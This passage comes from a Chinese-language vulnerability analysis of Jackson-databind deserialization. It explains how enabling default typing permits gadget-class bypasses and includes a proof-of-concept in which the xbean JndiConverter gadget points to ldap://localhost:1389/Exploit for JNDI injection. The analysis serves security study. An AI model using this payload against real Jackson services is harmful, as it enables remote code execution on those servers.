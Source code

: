 ```
interface Name `{`
    public void setName(String name);
    public String getName();
`}`
```

此时正常输出：

```
序列化
`{`"age":20,"name":["com.jackson.MyName",`{`"name":"lceCre4m"`}`],"object":["com.jackson.patrilic",`{`"length":100`}`]`}`

反序列化
age = 20, object = com.jackson.patrilic@4cf777e8, name = com.jackson.MyName@2f686d1f
```

若使用JAVA_LANG_OBJECT，在反序列化时会报错，因为例子中存在非具体类型。



## 0x02 Jackson漏洞简述

Jackson的漏洞主要集中在jackson-databind中，当启用Global default typing，类似于FastJson的autoType，会存在各种各样的反序列化绕过类，而官方更新的防护措施一般都是将新出现的恶意类加入黑名单，不过这种方式治标不治本，最近jackson-databind的绕过出现不少。

下面仅以xbean-reflect类（影响2.0.0 – 2.9.10.2）为例，详细分析下Jackson的反序列化漏洞。



## 0x03 Jackson漏洞详细分析

### <a class="reference-link" name="%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA"></a>环境搭建

环境：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar + IDEA

首先创建好项目后添加相关依赖，之后创建poc.java：

```
//poc.java

package com.jackson;
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class poc `{`
    public static void main(String[] args) throws IOException `{`
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", `{`\"asText\":\"ldap://localhost:1389/Exploit\"`}`]";
        mapper.readValue(json, Object.class);
    `}`
`}`
```
